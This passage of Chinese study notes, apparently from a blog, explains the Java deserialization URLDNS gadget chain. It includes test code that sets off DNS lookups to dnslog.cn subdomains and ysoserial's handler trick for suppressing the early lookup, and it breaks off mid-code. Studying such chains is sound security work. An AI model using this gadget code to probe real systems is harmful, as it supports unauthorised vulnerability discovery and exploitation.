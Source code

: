 因此简单来说，抛去反序列化的话，简单的用一次`put`都会触发一次`URLDNS`，写段代码测试一下：

```java
import java.net.MalformedURLException;
import java.net.URL;
import java.util.HashMap;

public class URLDNS {
    public static void main(String[] args) throws MalformedURLException {
        HashMap ht = new HashMap();
        String url = "http://sckuk4.dnslog.cn/";
        URL u = new URL(url);
        ht.put(u,url);
    }
}
```

![image-20210813150340491]([Java反序列化]URLDNS链学习.assets/image-20210813150340491.png)



再看看`Ysoserial`里面的`URLDNS`，多了这些：

```java
                URLStreamHandler handler = new SilentURLStreamHandler();
                URL u = new URL(null, url, handler); // URL to use as the Key

        static class SilentURLStreamHandler extends URLStreamHandler {

                protected URLConnection openConnection(URL u) throws IOException {
                        return null;
                }

                protected synchronized InetAddress getHostAddress(URL u) {
                        return null;
                }
        }
```



根据调用链，最后面会调用`handler`的`getHostAddress`方法。为了不让在`put`的时候就触发了`URLDNS`，`Ysoserial`自己写了一个类继承`URLStreamHandler`，然后重写了`getHostAddress()`方法，防止了`put`时候的触发。

因此我们也自己写一个试试：

```java


import java.io.IOException;
import java.net.*;
import java.util.HashMap;

public class URLDNS {
    public static void main(String[] args) throws MalformedURLException {
        HashMap ht = new HashMap();
        String url = "http://amam4v.dnslog.cn/";
        URLStreamHandler handler = new TestURLStreamHandler();
        URL u = new URL(null,url,handler);
        ht.put(u,url);
    }
}

class TestURLStreamHandler extends URLStreamHandler {
    @Override
    protected URLConnection openConnection(URL u) throws IOException {
        return null;
    }
    @Override
```